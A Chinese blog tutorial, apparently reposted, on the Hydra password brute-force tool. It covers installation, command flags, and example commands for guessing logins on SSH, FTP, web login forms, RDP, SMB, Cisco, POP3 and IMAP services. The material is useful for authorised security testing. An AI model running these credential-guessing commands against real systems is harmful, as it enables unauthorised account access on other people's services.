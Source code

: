 ```yaml
---
title: Linux下的暴力密码在线破解工具Hydra详解
category: tools
---
```


### 一、简介

hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网： http://www.thc.org/thc-hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。

### 二、安装

如果是Debian和Ubuntu发行版，源里自带hydra，直接用apt-get在线安装：

    sudo apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev hydra

Redhat/Fedora发行版的下载源码包编译安装，先安装相关依赖包：

    yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel
    hydra下载地址：http://www.thc.org/releases/hydra-7.3.tar.gz
    # tar zxvf hydra-7.0-src.tar.gz
    # cd hydra-7.0-src
    # ./configure
    # make
    # make install

hydra支持GUI图形界面，不过习惯还是命令好用。

### 三、参数说明

    hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
    [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV]
    server service [OPT]

    -R 继续从上一次进度接着破解。
    -S 采用SSL链接。
    -s PORT 可通过这个参数指定非默认端口。
    -l LOGIN 指定破解的用户，对特定用户破解。
    -L FILE 指定用户名字典。
    -p PASS 小写，指定密码破解，少用，一般是采用密码字典。
    -P FILE 大写，指定密码字典。
    -e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
    -C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
    -M FILE 指定目标列表文件一行一条。
    -o FILE 指定结果输出文件。
    -f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
    -t TASKS 同时运行的线程数，默认为16。
    -w TIME 设置最大超时的时间，单位秒，默认是30s。
    -v / -V 显示详细过程。
    server 目标ip
    service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
    OPT 可选项

### 使用示例

1、破解ssh：

    hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns ip ssh
    hydra -l 用户名 -P 密码字典 -t 线程 -o save.log -vV ip ssh

2、破解ftp：

    hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
    hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

3、get方式提交，破解web登录：

    hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns ip http-get /admin/
    hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

4、post方式提交，破解web登录：

    hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
    hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

参数说明：-t同时线程数3，-l用户名是admin，-P字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止，10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,title中的内容是表示错误猜解的返回信息提示。

5、破解https：

    hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6、破解teamspeak：

    hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

7、破解cisco：

    hydra -P pass.txt 10.36.16.18 cisco
    hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8、破解smb：

    hydra -l administrator -P pass.txt 10.36.16.18 smb

9、破解pop3：

    hydra -l muts -P pass.txt my.pop3.mail pop3

10、破解rdp：

    hydra ip rdp -l administrator -P pass.txt -V

11、破解http-proxy：

    hydra -l admin -P pass.txt http-proxy://10.36.16.18

12、破解imap：

    hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
    hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

---
*转自[这里](http://www.ha97.com/5186.html)*
